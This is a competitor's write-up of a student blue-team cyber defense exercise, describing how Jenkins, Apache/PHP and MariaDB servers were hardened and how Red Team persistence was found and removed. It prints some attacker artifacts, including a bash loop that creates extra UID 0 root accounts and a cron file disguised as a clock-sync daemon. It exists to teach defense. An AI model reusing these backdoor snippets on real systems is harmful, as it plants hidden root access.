Overview
I was on Team 26 at the Horse Plinko Cyber Challenge 4 (HPCC4), a beginner blue-team competition hosted at UCF on October 17, 2026. Four of us defended a five-box Windows and Linux network against a live Red Team while completing business injects. Service uptime counted for 70% of the score and injects for 30%.
I worked on three of our five boxes alongside teammates: assembly (Windows Server 2022, Jenkins and RDP), guidance (Ubuntu, the PlinkCom web app and SSH) and manifest (Windows Server 2019, MariaDB and RDP). None of them was mine alone, but on each the job was the same: keep the services scoring while closing off the ways Red Team could get in. I also worked on four injects.
If you're reading top to bottom and aren't deep in this world: the whole game is keeping a handful of services online while a Red Team tries to knock them over. They do it two ways. The serious way is breaking things quietly, like stopping a service or hiding a backdoor account. The other way is just messing with you, like swapping your terminal output for a cartoon horse or making you win a dice roll before a command will run. Both are in here. The screenshots show the real ones, and the jokes are collected under Red Team pranks.
Environment
The competition ran from 10:00 to 17:30. Service uptime was 70% of the score and injects 30%. Each team had five free reverts; after that, every revert cost 20 minutes of uptime, so the goal was to fix a box in place rather than roll it back. Every scored service is checked as the jmoney account, whose password is registered in the scoreboard (NEIGH) as well as on each box. jmoney can never be disabled, and its password has to stay in sync everywhere, which is the thread behind several of the Red Team moves below.
| Item | Detail |
|---|---|
| Box | assembly, 172.16.26.30 |
| OS | Windows Server 2022 |
| Scored: RDP | jmoney must log in over RDP (TCP 3389) |
| Scored: Jenkins | jmoney must log in at port 8080 and see the latest rocket-build succeed |
| Access | RDP from Kali over the NetBird VPN, Jenkins UI in the browser |
| Backup target | blackbox (172.16.26.5), out of scope for Red Team |
| Team network | Team 26, 172.16.26.0/24: blackbox .5 (Linux Mint 22, out of scope), guidance .10 (Ubuntu 22.04), ignition .20 (Fedora Server 38), assembly .30 (Windows Server 2022), manifest .40 (Windows Server 2019) |
| Scored services, whole team | guidance: SSH and PlinkCom web. ignition: SSH and Open WebUI. assembly: RDP and Jenkins. manifest: RDP and MariaDB. Every check logs in as jmoney |
Jenkins ran builds on its built-in node, so any job change ran code directly on assembly as the Jenkins service account. That made the job config and the Script Console the highest-value targets on the box.
Prep
The day before, I stood up a local Jenkins 2.580.1 instance in WSL Kali to learn the admin UI before touching the real box.
- Walked through Manage Jenkins to find the pages that matter for defense: Security, Users, Credentials, Plugins, System Information and the Script Console
- Ran a harmless command in the Script Console to see how much access an admin login gives
- Built a command cheat sheet for assembly: user audits, Jenkins service and file paths, persistence hunting, firewall rollback
- Planned key-only SSH into assembly from Kali (ed25519 key, password and keyboard-interactive auth off, AllowUsers plinktern)
- Reviewed my own CCDC-Script toolkit and worked out the right firewall inputs for this box

Local Jenkins 2.580.1 instance in WSL Kali, used to learn the admin UI before the round.
Assembly (Jenkins)
The plan was to lock credentials first, keep a clean backup, then harden without breaking either scored service. Cut any step below I didn't get to.
- Credentials. Changed plinktern's and jmoney's passwords in Windows and separately in Jenkins, since the defaults were in the public packet. Updated jmoney's new password in the scoreboard so checks kept passing.
- Backups to blackbox. Zipped the Jenkins home (config, jobs, users, credentials, secrets), the service config, a firewall export and the local user and admin lists, then copied them to blackbox with scp.
- Firewall. Ran my firewall baseline script: inbound default block, logging on, TCP 8080 allowed, RDP left open so the scoring engine could reach it from any range.
- Verified scoring. Checked that RDP and Jenkins stayed green after each change.
- Windows hunting. Reviewed local users and admins, non-Microsoft scheduled tasks, services, Run keys, listening ports and pre-existing inbound allow rules.
- Jenkins lockdown. Audited Jenkins users, confirmed no anonymous access or sign-up, reviewed the rocket-build job's build steps, stored credentials, plugins and the version.
- Monitoring. Re-ran triage and watched OpenObserve on blackbox for logons and service changes.
Scoring evidence: Figures 1 and 5 show the scoreboard, and the post-flight checks under Injects show Apache, Open WebUI and the Jenkins sign-in running.
Plugin updates
Manage Jenkins flagged three installed plugins: Gradle (SSRF that can capture the Develocity access key), Pipeline: Multibranch (exposure of System-scoped credentials) and Pipeline: Groovy Libraries (path traversal). It also offered Jenkins 2.580.1. I updated Jenkins and the flagged plugins (Figure 4). I also scored the plugin findings for the vulnerability disclosure inject, below.
Plugin risk scoring
I scored the three Manage Jenkins plugin warnings with MITRE ATT&CK and CVSS 3.1 and ranked them. These numbers are my own calculations from the warning text, not the official Jenkins advisories, so check them before quoting them as final.
| Rank | Component | CVSS 3.1 vector | Score | Why |
|---|---|---|---|---|
| 1 | Pipeline: Multibranch (exposure of System-scoped credentials) | AV:N/AC:L/PR:L/UI:N/S:C/C:H/I:N/A:N | 7.7 | Stolen credentials can be reused against the repo, cloud or agents |
| 2 | Pipeline: Groovy Libraries (path traversal) | AV:N/AC:L/PR:L/UI:N/S:U/C:H/I:N/A:N | 6.5 | File read on the controller, which can include secrets |
| 3 | Gradle Plugin (SSRF) | AV:N/AC:L/PR:L/UI:N/S:U/C:H/I:N/A:N | 6.5 | Leaks only the Develocity access key |
With scope unchanged the Multibranch issue scores 6.5. I used 7.7 because the credential opens a different security authority. If anonymous users could create jobs, PR drops to N and the scores rise to 7.5 and 8.6, which is why I confirmed there was no anonymous access.
ATT&CK path for the top finding: T1078 Valid Accounts for the low-privilege foothold, T1059 Command and Scripting Interpreter through a pipeline job, T1555 and T1552 for credential access, then T1550 Use Alternate Authentication Material to reuse the secret. Mitigations: M1032 Multi-factor Authentication, M1026 Privileged Account Management, plus updating the plugin and rotating every System-scoped credential.
Team matrix entry: Impact High, Likelihood Medium, Overall Risk High, CVSS 6.5 (7.7 if scope changes), ATT&CK T1078 Valid Accounts, mitigation M1032, affected host 172.16.26.30.
Red Team on assembly
Scoring sign-in failure (11:15). The scoreboard showed the Jenkins check down with "Jenkins rejected the scoring account's sign-in" and a redirect to /loginError, while RDP stayed up (Figure 1).
Lookalike account (11:18). The Jenkins user list had jomoney next to the scored jmoney, one letter off. It was a fake account planted by Red Team, so I deleted it (Figure 2).
Admin account tampering. At some point Red Team edited plinktern's own Jenkins account, setting its description to "hi red guys" (Figure 19). Editing an admin profile means they had Jenkins admin access on assembly, not just a foothold. That lines up with the service tampering and the planted jomoney account: all three point to admin-level access, not a single stray login.
Service tampering (15:20). The Jenkins service was Stopped and would not come back.
Get-CimInstance Win32_Service showed why: its launch command had been changed to
"C:\Program Files\Jenkins\jenkins.exe" BUT EVIL. Windows passes the extra words to
jenkins.exe as arguments, so the service fails to start and the scored Jenkins check goes down
(T1112 Modify Registry, T1489 Service Stop). It was the same trick Red Team used on manifest's
MariaDB service. I set the ImagePath back to the bare executable and started the service, and
Get-Service showed it Running (Figure 3):
Set-ItemProperty -Path "HKLM:\SYSTEM\CurrentControlSet\Services\Jenkins" -Name ImagePath -Value '"C:\Program Files\Jenkins\jenkins.exe"'
Start-Service Jenkins
Get-Service JenkinsPassword reset. I tried to reset plinktern's Jenkins password by stopping the service and replacing the passwordHash in the user's config.xml. One run found no config.xml, and a run from a PowerShell ISE that was not elevated could not open the service. I also pasted Groovy Script Console code into PowerShell by mistake, which failed to parse. We finally reset the credentials through the Jenkins Script Console.
Assembly injects
- Vulnerability disclosure #467337. The Multibranch finding scored above, filed on the compliance form. The full form and my notes on it are under Injects.
- Post-flight check 3. Our screenshot of the Jenkins sign-in on localhost:8080 as plinktern came from this box.
Guidance (PlinkCom web)
Guidance is the Ubuntu 22.04 box at 172.16.26.10. It runs the PlinkCom PHP app on Apache and SSH, and the scoring engine checks both as jmoney.
Apache review
I checked ports.conf, apache2.conf, envvars and the loaded modules against Debian defaults, and all of them matched (Figure 14). Port 80 was the only listener and nothing ran TLS (Figure 15). I left it that way because the scoring checks use plain HTTP, and logged it as an accepted risk. Our post-flight checks inject used this box's apache2 status, active (running) since 07:15:05 UTC.
Uploads webshell path (15:55)
The vhost in sites-available/plinkcom.conf let PHP run inside public/uploads. A comment in the block said so outright: "INTENTIONAL: mod_php executes uploaded PHP files here." Anyone who could upload a .php file there could run commands on the box as www-data (T1505.003 Web Shell). AllowOverride AuthConfig also let a dropped .htaccess change how the folder behaved.
I replaced the block so PHP is off in that folder, overrides are ignored and only .txt files are served (Figures 17 and 18):
<Directory /var/www/plinkcom/public/uploads>
Options -Indexes -ExecCGI -FollowSymLinks
AllowOverride None
Require all granted
php_admin_flag engine off
<FilesMatch "(?i)^(?!.*[.]txt$).*$">
Require all denied
</FilesMatch>
<FilesMatch "(?i)[.]txt$">
SetHandler default-handler
</FilesMatch>
</Directory>
I also changed the dotfile rule from ^\. to ^[.] so it matches the way it reads,
and removed a stray closing Directory tag that would have failed configtest.
Root cron backdoor (14:27)
The auth log showed root's cron running a hidden script every minute:
CRON[1112]: (root) CMD (/usr/local/bin/.sysmaint.sh)/usr/local/bin held six hidden files from October 17: .sysmaint.sh, .ardiand.sh, .ejmguard.sh, .jsmguard.sh, .sysguard.sh and .kernguard.py (Figure 16). .sysmaint.sh creates four accounts with a duplicate root UID, each with its own name as the password:
for u in ardian ardianwashere jamesmoney eviljamesmoney; do
if ! id -u $u >/dev/null 2>&1; then
useradd -o -u 0 -g 0 -s /bin/bash $u
echo $u:$u | chpasswd
fi
doneThe -o flag allows the duplicate UID 0, so each account is a second root login. .ejmguard.sh backs it up with a loop that recreates eviljamesmoney every 300 seconds, so deleting the accounts alone would not stick (T1136.001 Create Account, T1053.003 Cron, T1564.001 Hidden Files).
I saved copies as evidence, killed the watchdog processes, removed the cron entry, deleted the scripts and removed the fake accounts. Order mattered: the loops had to die before the accounts went, or they would come right back.
Later, at 15:02, more persistence turned up: /etc/cron.d/rtc-syncd running /usr/local/sbin/mount-utabd-sync as root at boot and every 6 minutes, a second odd cron file (systemd-tmpfiles), and about a dozen lookalike services such as ardianwashere, systemdd, sshcrond and kernelguard. File dates (October 17 against the October 12 image) separated them from the real ones.
The 15:02 cron file was dressed up as a clock-sync daemon:
# Realtime Clock Sync Daemon
@reboot root /bin/sh -c 'sleep 60; /usr/local/sbin/mount-utabd-sync' >/dev/null 2>&1
*/6 * * * * root /usr/local/sbin/mount-utabd-sync >/dev/null 2>&1Despite the "Realtime Clock Sync" name, it runs /usr/local/sbin/mount-utabd-sync as root at boot and every 6 minutes (T1053.003 Cron, T1036 Masquerading). The enabled-services list had a matching set of lookalikes mixed in with the real daemons: ardianwashere, systemdd, systemd-daemon, sshcrond, sshd-session-cache, sshd-socket, kernelguard, hugepages-compactd, inetd, iscsid_safe, journald-upload-sync, and several dbus-broker and apache2-rotate names (T1543.002 Systemd Service). One signature tied it together: ardianwashere shows up both here as a planted service and above as one of the UID 0 accounts .sysmaint.sh creates, so the same actor left the same name on two different persistence mechanisms. The real units that had to stay (ssh, apache2, cron, otelcol-contrib for log shipping to blackbox, snapd, cloud-init) were told apart from the fakes by install date, October 17 against the October 12 base image.
SSH check blocked (14:27)
The same auth log showed sshd refusing jmoney: "User jmoney not allowed because listed in DenyUsers". The scoring engine logs into SSH as jmoney, so a DenyUsers entry for that name fails the check. I removed the jmoney DenyUsers entry from sshd_config and reloaded ssh (sshd -t first) so the scored SSH login could authenticate again. The entry singled out the scoring account, so it reads as Red Team's rather than a stock setting.
Shell tricks
Red Team also went after the terminal itself. A hook printed "the horse says: no" after every failed command, and passwd failed with an authentication token error even though the passwd binary checked out clean (Figure 12). A message appeared in the terminal threatening to delete the box (Figure 13), which we did not engage with. Later, ls was hijacked into a roulette game (Figure 28).
Login page 404 (16:50)
The scored web check failed because /login.php returned Apache's 404. The file was still in /var/www/plinkcom/public, but plinkcom-error.log showed Apache looking in /var/www/html, and /etc/apache2 had changed about two minutes earlier. Around 15:37, javascript-common.conf had also been enabled in conf-enabled, the only entry there newer than the October 12 image.
Manifest (MariaDB)
Manifest is the Windows Server 2019 box at 172.16.26.40. It runs MariaDB and RDP, and the scoring engine checks both as jmoney. The plinkcom database here backs the PlinkCom app on guidance.
Backups
I dumped the plinkcom database with mariadb-dump (single transaction, routines and triggers) and copied it to blackbox, so a revert or tampering could not take the only copy. It took a few tries. The first attempts left a 0 KB file (Figure 7), and at 14:07 the C:\backup folder I had made was gone, so the dump failed with "No such file or directory" (Figure 6). I recreated the folder, reran the dump and checked the size and header before trusting it. The good dump was 23 KB, stored on blackbox under ~/bk/manifest/backup (Figure 11).
Service tampering (15:08)
MariaDB stopped and would not start (Figure 8). PowerShell's error only said the service could not be started, so I went to the MariaDB error log, which said "Too many arguments (first extra is 'MariaDB')". Get-CimInstance Win32_Service showed the cause: Red Team had appended "BUT EVIL" to the service's launch command, so mysqld received arguments it did not understand and quit (T1112 Modify Registry, T1489 Service Stop). This was the same trick they used on Jenkins on assembly.
I rewrote the service's ImagePath in the registry back to the clean command and restarted the service. The clean PathName is:
"C:\Program Files\MariaDB 13.1\bin\mysqld.exe" "--defaults-file=C:\Program Files\MariaDB 13.1\data\my.ini" MariaDBAfterward the service showed Running, and mysqld was listening on 3306 (Figure 9).
Restore
I dropped plinkcom before the backup file had reached the DB host, so the database sat empty until the file arrived. Once it did, the restore brought MariaDB's data and service back.
Red Team activity
Red Team had already left persistence on the boxes before the round. Times are Eastern on October 17.
| Time | What I found | How I found it | What I did |
|---|---|---|---|
| 11:15 | assembly: the Jenkins check went DOWN while RDP stayed UP | The scoreboard said Jenkins rejected the scoring account's sign-in and redirected to /loginError | See Figure 1. |
| 11:18 | assembly: a Jenkins user named jomoney, one letter off from the scored account jmoney | The Jenkins user list showed jmoney, jomoney and plinktern. Only jmoney is the scored account | Deleted it as a fake account planted by Red Team. |
| 14:07 | manifest: the C:\backup folder I had created was gone | mariadb-dump failed with "No such file or directory" on a folder that existed earlier | Recreated the folder and reran the dump. |
| 14:27 | guidance: root cron ran the hidden script /usr/local/bin/.sysmaint.sh every minute, backed by hidden watchdog scripts | The auth log showed CRON running the dotfile. ls -la /usr/local/bin listed the hidden scripts, and cat showed .sysmaint.sh creating UID 0 accounts | Saved copies as evidence, then killed the watchdogs before removing the cron entry, scripts and fake accounts. |
| 14:27 | guidance: sshd refused the scored jmoney account because it was listed in DenyUsers, so the SSH check could not log in | The auth log showed "User jmoney not allowed because listed in DenyUsers" from many source addresses | Removed the jmoney DenyUsers entry from sshd_config and reloaded ssh (sshd -t first). |
| 14:28 | guidance: a shell hook printed "the horse says: no" after every failed command, and passwd failed with an authentication token error | type -a, file, ls -l and dpkg -V on passwd were clean, and lsattr showed no immutable flags, so the binary was not the cause | Confirmed the passwd binary was clean, so the cause was a shell hook, not a replaced binary. Removed a suspicious item found under a programd path. |
| 14:33 | guidance: a message written into the terminal threatening to delete my box | Appeared in the shell output | Did not engage. |
| 15:02 | guidance: /etc/cron.d/rtc-syncd running as root every 6 minutes, a second odd cron file, and about a dozen lookalike services | Listed /etc/cron.* and systemctl list-unit-files, then compared against stock Ubuntu and file dates (Oct 17 against the Oct 12 image) | Identified the planted cron files and lookalike units by install date; disabled the units, removed rtc-syncd and its payload, and daemon-reload. |
| 15:08 | manifest: MariaDB would not start, and the service launch command ended with extra text ("BUT EVIL") | The mysqld error log said "Too many arguments (first extra is 'MariaDB')", then Get-CimInstance Win32_Service showed the PathName | Rewrote the service ImagePath in the registry and restarted it; MariaDB came back and scored again. |
| 15:20 | assembly: the Jenkins service had the same appended text on its launch command | Same PathName check | Rewrote the Jenkins service ImagePath with Set-ItemProperty and started the service; Get-Service showed it Running. |
| 15:55 | guidance: the Apache vhost let mod_php run any file uploaded to public/uploads, a webshell path | Read sites-available/plinkcom.conf. A comment in the uploads block said PHP execution there was intentional | Set AllowOverride None, php_admin_flag engine off, and FilesMatch rules that deny everything except .txt. Also fixed a stray closing Directory tag. |
| 16:50 | guidance: the scoring check failed because /login.php returned Apache's 404 | login.php existed under /var/www/plinkcom/public, but plinkcom-error.log said Apache looked for /var/www/html/login.php, and /etc/apache2 had changed two minutes earlier | Diagnosed as the running Apache serving from /var/www/html instead of the vhost DocumentRoot. Fix: correct the config and do a full restart, not a reload. |
Red Team playbook
A few patterns repeated across the boxes, which made later findings quicker to spot once the first one turned up.
- Service sabotage by appended arguments. The Jenkins service on assembly and the MariaDB service on manifest had the exact same tamper: extra words bolted onto the end of the service launch command so the real binary rejects its arguments and the service dies (T1112, T1489). After seeing it on one Windows box, the other was a one-command registry fix.
- The scoring account was the target, not collateral. jmoney was blocked at SSH on guidance (a DenyUsers entry) and shadowed by a jomoney lookalike in Jenkins. Both aimed at the one account every scored check uses.
- A consistent naming signature. ardianwashere appears as a UID 0 account and as a planted systemd service, and the fake services deliberately echo real daemon names. That signature is what separated the planted persistence from the stock image.
- Shell-level harassment reused across hosts. The "the horse says: no" hook and the dice and roulette gags showed up on both guidance and ignition, so they came from shared tooling rather than per-box effort.
ATT&CK summary
| Technique | Where it showed up |
|---|---|
| T1078 Valid Accounts | jmoney scoring account targeted; admin-level Jenkins access on assembly |
| T1136.001 Create Account: Local | UID 0 accounts created by .sysmaint.sh (guidance) |
| T1053.003 Scheduled Task/Job: Cron | .sysmaint.sh every minute, rtc-syncd every 6 minutes (guidance) |
| T1543.002 Create or Modify System Process: Systemd | lookalike services; systemd-proc on ignition (guidance, ignition) |
| T1564.001 Hidden Files and Directories | dotfile scripts in /usr/local/bin (guidance) |
| T1112 Modify Registry | service ImagePath tampering (assembly, manifest) |
| T1489 Service Stop | Jenkins and MariaDB stopped (assembly, manifest) |
| T1505.003 Web Shell | PHP execution allowed in public/uploads (guidance) |
| T1036 Masquerading | MicrosoftEdgeUpdate.ps1, rtc-syncd, lookalike service names |
| T1027 / T1140 Obfuscated Files / Deobfuscate | base64 + XOR payload in the fake Edge update |
Red Team pranks
Red Team also left a few jokes on the boxes.
Figure 24. A "Helpful Horse" popup that appeared on the Windows machines, shown here over PlinkCom's User Management page at 18:04:08 UTC. A cartoon horse sits on top of the window, and a fake dialog asks to "access photos, media, and files on your device". The page lists 10 accounts: jmoney, hkeating, joe, thescreamer, plinktern, aurorag, np, kevink, ibiza and maurice. Only jmoney and plinktern show a login that day.

Figure 25. plinktern's home folder on ignition at 15:34:58. A horse emoji replaces random characters on screen, so the same file shows as .bash_eternal_h🏆story in one listing and .bash_eternal_history in the next, and the typed ls shows as l🏆. The folder also holds .bash_eternal_history, .bash_history.tmp and an empty .wall-e file.

Figure 26. A full-screen "YOU MUST ROLL A 6 TO CONTINUE" dice game, here showing "You rolled a 2. Not a 6 -- roll again." It popped up on both the Windows and Linux machines. On Windows, ending it in Task Manager closed it.
Figure 27. su to jmoney on ignition (Fedora 38). Login prints a failed unit named systemd-proc.service, which is not a stock Fedora unit, and every line of output after that comes out rainbow-colored. jmoney's home folder has the same .bash_eternal_history and .bash_history.tmp files as plinktern's, and the "the horse says: no" hook from guidance shows up here too, so Red Team reused it across boxes.

Figure 28. SSH back into guidance at 17:31:11 UTC after the connection timed out. A roulette wheel replaces part of the login banner, and running ls starts a game asking "Choose your color - (r)ed, (b)lack, (g)reen" instead of listing files, so ls itself was hijacked.

Injects
I worked on four of Team 26's injects alongside the box work. Each response went out from the IT-Team.
Suspicious download
The task was to look into a file found on a workstation.
What we found. The Downloads folder held MicrosoftEdgeUpdate.ps1 (6 KB, dated 7/5/2026) among ordinary office files like a snack drone incident report and a phone list. Edge does not update through a loose PowerShell script in Downloads, so the name is a disguise (T1036 Masquerading).

The timer. Opened in Notepad, the script builds a System.Windows.Forms.Timer with a 900 ms interval. Each tick runs the next entry in a $steps list, so the script works in stages instead of all at once.

The encoded payload. A long string, $ServicingManifest, is passed to a function named Unprotect-ServicingManifest. Decoding it as plain base64 gave unreadable output. The function shows why: after the base64 step it XORs every byte against the ASCII bytes of a $ProductId value, repeating that key across the data (T1027 Obfuscated Files or Information, T1140 Deobfuscate/Decode).

Open item. The script also references a proxy server, which we could not locate.
Next time. Find where $ProductId is set, then run only the base64 and XOR steps offline to recover the payload, without executing the rest of the script. That would likely reveal the proxy address too.
Post-flight checks
Ibiza asked for five screenshots, in order, showing our post-flight checks. We sent three.
1. Apache web server running (guidance). apache2.service is active (running) since 07:15:05 UTC.

2. Open WebUI running (ignition). openwebui.service is active (running) on port 80, and the log shows jmoney@plinko.horse authenticating at 14:57:31.
